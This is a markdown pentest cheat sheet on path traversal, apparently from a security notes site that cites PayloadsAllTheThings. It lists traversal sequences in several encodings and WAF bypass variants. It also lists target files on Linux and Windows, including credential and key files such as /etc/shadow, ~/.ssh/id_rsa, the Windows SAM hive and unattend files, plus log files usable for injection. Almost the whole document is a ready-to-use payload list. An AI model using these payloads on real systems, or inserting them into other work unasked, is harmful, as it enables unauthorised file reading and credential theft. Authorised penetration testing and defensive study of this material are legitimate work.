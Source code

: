 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Path Traversal

## Basic Payloads

```javascript
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

## Bypasses

```bash
# If WAF removing "../"
..././
...\.\
..;/

# Double URL encoding
. = %252e
/ = %252f
\ = %255c
```

## Interesting Files

### Linux

Interesting files:

*   Operating System and Informations

    ```
    /etc/issue
    /etc/group
    /etc/hosts
    /etc/motd
    ```
*   Processes

    ```
    /proc/[0-9]*/fd/[0-9]*   # first number is the PID, second is the filedescriptor
    /proc/self/environ
    /proc/version
    /proc/cmdline
    /proc/sched_debug
    /proc/mounts
    ```
*   Network

    ```
    /proc/net/arp
    /proc/net/route
    /proc/net/tcp
    /proc/net/udp
    ```
*   Current Path

    ```
    /proc/self/cwd/index.php
    /proc/self/cwd/main.py
    ```
*   Indexing

    ```
    /var/lib/mlocate/mlocate.db
    /var/lib/plocate/plocate.db
    /var/lib/mlocate.db
    ```
*   Credentials and history

    ```
    /etc/passwd
    /etc/shadow
    /home/$USER/.bash_history
    /home/$USER/.ssh/id_rsa
    /etc/mysql/my.cnf
    ```
*   Possible payload injectable files:\


    ```
    /var/log/apache/access.log
    /var/log/apache/error.log
    /var/log/httpd/error_log
    /usr/local/apache/log/error_log
    /usr/local/apache2/log/error_log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    /var/log/vsftpd.log
    /var/log/sshd.log
    /var/log/mail
    ```

### Windows

Interesting files:

```bash
# Always existing files in recent Windows
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
C:\Windows\win.ini

c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)\
